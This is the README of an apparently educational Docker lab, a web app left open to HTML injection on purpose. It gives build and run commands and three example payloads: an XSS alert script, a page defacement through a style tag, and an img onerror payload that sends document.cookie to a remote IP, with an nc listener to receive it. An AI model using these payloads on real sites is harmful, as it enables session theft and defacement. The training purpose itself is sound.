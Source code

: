 # HTML Injection   

A simple docker container that has a web app that is susceptible to HTML injection.

## Build
```
docker build -t html-injection .
```

## Usage
```
docker run -d -p 5000:5000 --name html-injection -t html-injection
```

## Examples
### 1) Simple HTML Injection
Click the "Enter your name button and insert a XSS test alert script.

```
<script>alert("XSS Test")</script>
```

### 2) Defacement of the page
You can import pictures using a script.

```
<style> body {background-image: url('https://uwe-cyber.github.io/images/uwecyber.png');}</style>
```

### 3) Stealing Cookies
Export the session cookie to a remote server.

Have a nc listener running on port 5001 on your local machine.

```
nc -lvp 5001
```

Then use the following script to export the cookie to your local machine. Note the `removeAttribute` is used to prevent the script from running more than once.

```
<img src=x onerror="this.src='http://192.168.0.18:8888/?'+document.cookie; this.removeAttribute('onerror');">
```
